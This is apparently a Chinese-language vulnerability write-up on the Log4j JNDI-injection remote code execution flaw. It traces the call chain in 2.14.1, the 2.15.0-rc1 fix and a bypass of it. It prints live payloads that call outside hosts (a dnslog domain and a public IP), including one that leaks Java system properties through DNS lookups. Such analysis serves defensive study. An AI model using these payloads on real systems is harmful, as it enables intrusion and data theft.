log4j rce

影响版本：

2.0-beta9 到 2.14.1

修复版本：

2.15.0-rc2

payload：

`${jndi:ldap://9zx4xu.dnslog.cn:1389/Exp}`

分析：

先来看原来没修的

## 2.14.1

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://49.232.128.44:1234/Exploit}");
    }
}
```

这里的调用链比较长，如下

```java
toSerializable:342, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:42, log4j
```

断点打到PatternLayout#toSerializable

这里的event参数即为封装的日志事件，其中message参数包含我们的exploit。然后会调用this.formatters中的format方法



format方法中会调用this.converter的format方法



formatters如下，主要是每个formatter的converter属性不同，这里主要看MessagePatternConverter，因为是处理message即恶意参数的



MessagePatternConverter#format

这里从event取出message后会拼接上workingBuilder，然后判断其中是否有连续的`${`字符，如果有则取出进行替换(其实就是解析${}中的内容)



经过几个调用

```java
substitute:930, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
```

到StrSubstitutor#substitute

这里内容比较多，就不贴图了，主要作用就是递归解析${}的内容，解析的函数在418行this.resolveVariable，此时varName为

`jndi:ldap://localhost:1234/Exploit`

```java
    private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length, List<String> priorVariables) {
        ...
        String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
    }
```

这里会调用resolver#lookup，并且支持的lookup调用在strLookupMap中，这里可以看到jndi



先继续跟入Interpolator#lookup

这里会根据var的前四位来从strLookupMap中取对应的lookup实现，这里因为是`jndi:ldap://localhost:1234/Exploit`所以取出JndiLookup，然后在下面调用JndiLookup#lookup方法


最终在JndiManager#lookup中完成jndi注入



## 2.15.0-rc1

2.15.0-rc1版本主要是对PatternLayout#toSerializable中的this.formatters做了改动

可以看到MessagePatternConverter变成了MessagePatternConverter$SimpleMessagePatternConverter



看一下他的format方法，这里并没有对${}进行提取解析，只是将它拼接到error的日志格式后了



而真正解析的地方被放到了

MessagePatternConverter$LookupMessagePatternConverter中，但是之前formatters中根本就没有这个Converter，所以其实算是修复了



除非手动构造一个，但是感觉这样有点鸡肋...不知道还有没有其他方法，这里用了4train师傅的构造

```java
public static void main(String[] args) {
        final Configuration config = new DefaultConfigurationBuilder().build(true);
        final MessagePatternConverter converter =
                MessagePatternConverter.newInstance(config, new String[] {"lookups"});
        final Message msg = new ParameterizedMessage("${jndi:ldap://ip:1234/rce}");
        final LogEvent event = Log4jLogEvent.newBuilder()
                .setLoggerName("MyLogger")
                .setLevel(Level.DEBUG)
                .setMessage(msg).build();
        final StringBuilder sb = new StringBuilder();
        converter.format(event, sb);
        System.out.println(sb);
    }
```

不过这里rc1中JndiManager#lookup中有规定运行的地址、类、以及协议，可以看到这里只允许ldap请求本地服务，基本上寄了



但是官方后来又发布了2.15.0-rc2

其中一个补丁是在JndiManager#lookup中增加了捕获到异常后的返回处理



还有一处是官方测试时添加的，那么可以猜测使用一些特殊字符放入jndi的uri中另程序进入异常，并且rc1中不会进行异常处理，以此绕过



所以加个在ClassName前加个空格就好了，本地利用需要tomcat的包(支持BeanFactory、ELProcessor)或者其他gadget


## 其他

今天看到其他师傅发的利用，意识到能用lookup信息泄露，比如

`${jndi:ldap://${sys:java.version}.7i3934.dnslog.cn:1099/}`


还是这几个lookup实现


比如sys

SystemPropertiesLookup#lookup，就能从System.getProperties()中取值


EnvironmentLookup#lookup是从System.getenv()取值


JavaLookup#lookup局限这几个


浅蓝师傅还发现了如果使用了ResourceBundleLookup#lookup，可以读取properties配置文件


但是strLookupMap中没有bundle这个key，应该不能直接触发，除非开发人员直接使用并且参数可控

`ResourceBundle.getBundle(bundleName).getString(bundleKey)`

参考：

https://xz.aliyun.com/t/10649

https://github.com/apache/logging-log4j2/compare/log4j-2.15.0-rc1...log4j-2.15.0-rc2

https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg
